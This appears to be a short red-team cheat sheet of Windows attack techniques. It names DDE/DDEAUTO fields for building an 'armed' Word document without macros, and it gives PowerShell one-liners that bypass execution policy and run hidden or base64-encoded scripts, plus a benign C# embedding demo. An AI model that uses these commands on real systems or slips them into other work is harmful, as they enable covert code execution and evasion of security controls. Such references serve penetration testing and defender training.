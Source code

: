 ## MSWord-Code-Exec
Leverage Dynamic Data Exchange (DDE) through the following payloads to create an armed MS Word Document
without utilizing any macros (https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/) 
* DDEAUTO
* DDE
## Bypass PowerShell Execution Policy
> Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
## Instantiate PowerShell.exe with no execution policy to run a script of choice
> powershell.exe -executionpolicy bypass -windowstyle hidden -noninteractive -nologo -file "c:\temp\exploit.ps1"
## Encoded PowerShell Command
> powershell.exe –WindowStyle Hidden –noprofile –EncodedCommand <BASE64ENCODED>
## Embedding C# into PowerShell
> Add-Type -TypeDefinition @"
>        using System;
>        using System.Diagnostics;
>        using System.Runtime.InteropServices;
>  
>        public static class User32
>        {
>              [DllImport("User32.dll", SetLastError=true, CharSet=CharSet.Unicode)]
>              public static extern int MessageBoxW(
>                              int hWnd,
>                              string lpText,
>                              string lpCaption,
>                              int uType
>              );
>        }
>  "@
>  [User32]::MessageBoxW(0, "SensePost", 0x00000000L)
